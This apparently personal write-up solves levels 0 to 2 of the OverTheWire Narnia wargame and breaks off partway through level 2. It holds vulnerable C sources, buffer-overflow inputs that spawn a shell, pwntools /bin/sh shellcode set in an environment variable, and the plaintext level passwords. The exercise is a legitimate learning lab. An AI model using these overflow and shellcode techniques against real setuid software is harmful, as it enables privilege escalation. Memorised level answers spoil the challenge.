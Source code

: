 # Narnia

It looks like this is a set of C exploit challenges:
```bash
narnia0@narnia:~$ cd /narnia/
narnia0@narnia:/narnia$ ls -l
total 108
-r-sr-x--- 1 narnia1 narnia0 7568 Nov  9  2017 narnia0
-r--r----- 1 narnia0 narnia0 1186 Nov  9  2017 narnia0.c
-r-sr-x--- 1 narnia2 narnia1 7404 Nov  9  2017 narnia1
-r--r----- 1 narnia1 narnia1 1000 Nov  9  2017 narnia1.c
-r-sr-x--- 1 narnia3 narnia2 5164 Nov  9  2017 narnia2
-r--r----- 1 narnia2 narnia2  999 Nov  9  2017 narnia2.c
-r-sr-x--- 1 narnia4 narnia3 5836 Nov  9  2017 narnia3
-r--r----- 1 narnia3 narnia3 1841 Nov  9  2017 narnia3.c
-r-sr-x--- 1 narnia5 narnia4 5336 Nov  9  2017 narnia4
-r--r----- 1 narnia4 narnia4 1064 Nov  9  2017 narnia4.c
-r-sr-x--- 1 narnia6 narnia5 5700 Nov  9  2017 narnia5
-r--r----- 1 narnia5 narnia5 1261 Nov  9  2017 narnia5.c
-r-sr-x--- 1 narnia7 narnia6 6076 Nov  9  2017 narnia6
-r--r----- 1 narnia6 narnia6 1602 Nov  9  2017 narnia6.c
-r-sr-x--- 1 narnia8 narnia7 6676 Nov  9  2017 narnia7
-r--r----- 1 narnia7 narnia7 1974 Nov  9  2017 narnia7.c
-r-sr-x--- 1 narnia9 narnia8 5232 Nov  9  2017 narnia8
-r--r----- 1 narnia8 narnia8 1292 Nov  9  2017 narnia8.c
```
Each user can read the source of the challenge level and each binary is a setuid
binary that runs under the next user.

Now that I've done a few, these are definitely more involved that anything else
so far in overthewire: there is zero hand holding and each comes down to
essentially (for me) three parts:
  1) Identify the target in the source code.
  2) Google what you can do with that...
  3) Exploit it!


### lvl-0
```c
#include <stdio.h>
#include <stdlib.h>

int main(){
	long val=0x41414141;
	char buf[20];

	printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
	printf("Here is your chance: ");
	scanf("%24s",&buf);

	printf("buf: %s\n",buf);
	printf("val: 0x%08x\n",val);

	if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
		system("/bin/sh");
    }
	else {
		printf("WAY OFF!!!!\n");
		exit(1);
	}

	return 0;
}
```

So...we need to provide some input that overflows the `buf` buffer.
The buffer is 20 characters long but the `scanf` reads 24 characters which will
stomp on the value of `val`. We need to set those last 4 characters correctly.

OK, a bit of hacking around in Python didn't get me very far as It looks like I
need a way of providing HEX input to the program as `0xad` is non-printable.
(See https://www.rapidtables.com/code/text/ascii-table.html for a full table).

You can use `echo -e` to use hex escape codes so lets try that:
```bash
narnia0@narnia:/narnia$ echo -en "AAAAAAAAAAAAAAAAAAAA\xde\xad\xbe\xef" | ./narnia0 
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAޭ��
val: 0xefbeadde
WAY OFF!!!!
```

That's the correct hex pairs but reversed...(after a bit of googling, this is
because of the direction the stack is growing: I need to reverse the pairs in
the input.)

```bash
narnia0@narnia:/narnia$ echo -en "AAAAAAAAAAAAAAAAAAAA\xef\xbe\xad\xde" | ./narnia0 
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ�
val: 0xdeadbeef
```

Success!...but no shell. WTF? Let's try creating the payload string with python:

```bash
narnia0@narnia:/narnia$ python -c "print ('a' * 20) + '\xef\xbe\xad\xde\x88'"
aaaaaaaaaaaaaaaaaaaaﾭވ

# Copy that and then paste in at the prompt

narnia0@narnia:/narnia$ ./narnia0 
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: aaaaaaaaaaaaaaaaaaaaﾭވ
buf: aaaaaaaaaaaaaaaaaaaaﾭ�
val: 0xdeadbeef
$ whoami
narnia1
$ cat /etc/narnia_pass/narnia1
efeidiedae
```
Woo!

efeidiedae


### lvl-1
```c
#include <stdio.h>

int main(){
	int (*ret)();

	if(getenv("EGG")==NULL){    
		printf("Give me something to execute at the env-variable EGG\n");
		exit(1);
	}

	printf("Trying to execute EGG!\n");
	ret = getenv("EGG");
	ret();

	return 0;
}
```

Sooo...what? This looks something up in the environment then tries to call it as
a C function?!

```bash
narnia1@narnia:/narnia$ ./narnia1
Give me something to execute at the env-variable EGG

narnia1@narnia:/narnia$ EGG=ls ./narnia1
Trying to execute EGG!
Segmentation fault
```

So, whatever gets returned from the ENV lookup, gets executed as a C function
(or it tries to at least). Back to google!

Ah, so this needs to be some [shellcode](http://www.vividmachines.com/shellcode/shellcode.html):
a set of assembler instructions that open a remote shell. There are tonnes of
examples online...but URGH that feels nasty to try one out! Good job it's on
this remote server...!

Oh! pwntools! Looks like they have a bunch of built in stuff for precisely this
sort of thing:
```python
# python2 only on this server (maybe at all?)
>>> from pwn import *
>>> asm(shellcraft.i386.linux.sh())  # Look into this more...
'jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80'
```

```bash
narnia1@narnia:/narnia$ EGG=$'jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80' ./narnia1
Trying to execute EGG!
$ whoami
narnia1
```
Something seems to be borked...every write up I can find on this says that this
the correct thing to do and it should be a shell with `narnia2` perms not
`narnia1`... :(

Looking it up:
nairiepecu


### lvl-2
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char * argv[]){
	char buf[128];

	if(argc == 1){
		printf("Usage: %s argument\n", argv[0]);
		exit(1);
	}
	strcpy(buf,argv[1]);
	printf("%s", buf);

	return 0;
}
```

So, we have an unguarded strcopy which means that we can...do stuff? Need to research this one!
```
$ man strcpy
.
.
.
BUGS
       If  the  destination  string  of  a  strcpy()  is  not large enough, then anything might happen.  Overflowing fixed-length string buffers is a
       favorite cracker technique for taking complete control of the machine.  Any time a program reads or copies data into  a  buffer,  the  program
       first needs to check that there's enough space.  This may be unnecessary if you can show that overflow is impossible, but be careful: programs
       can get changed over time, in ways that may make the impossible possible.
```

Well THAT sounds like the sort of thing I'm after!
